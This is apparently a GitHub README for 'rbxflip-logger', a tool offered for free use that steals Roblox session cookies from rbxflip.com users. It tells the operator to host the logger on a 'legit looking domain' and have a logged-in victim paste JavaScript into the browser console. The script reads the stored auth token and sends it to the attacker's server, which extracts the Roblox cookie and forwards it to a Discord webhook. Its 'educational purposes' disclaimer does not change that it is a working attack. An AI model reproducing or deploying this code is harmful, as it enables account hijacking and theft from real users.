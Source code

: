 # rbxflip-logger
 since some people are selling that for $25 I decided to make one myself rq since it's really easy and people shouldn't waste their money on it,
 made it really quick, you can add more stuff (in sc.php) to get more informations about the cookie using the roblox api.


# How to use
1. Upload the files (from logger folder) on your webserver
2. Get a legit looking domain
3. Go to rbxflip.com (be logged in)
4. Open the developer console
5. Paste that inside the console:
```
var token = localStorage.getItem('auth._token.local');
await fetch("https://yourdomain.com/sc.php?t=" + token);
```
6. The simple js code will get the value of auth._token.local (JWT Token) and then decoding (server-sided), after decoding it, it will read the "credentials" object which is the roblox cookie stored on rbxflip, then it sends the cookie to the discord webhook of your choice. Nothing special, but people are selling this shit for $25 lol.



# Disclaimer
## I, the creator, am in no way responsible for any actions that you may make using this software. You take full responsibility with any action taken using this software. Please take note that this application was designed for educational purposes and should never be used maliciously. By downloading the software or source to the software, you automatically accept this agreement.
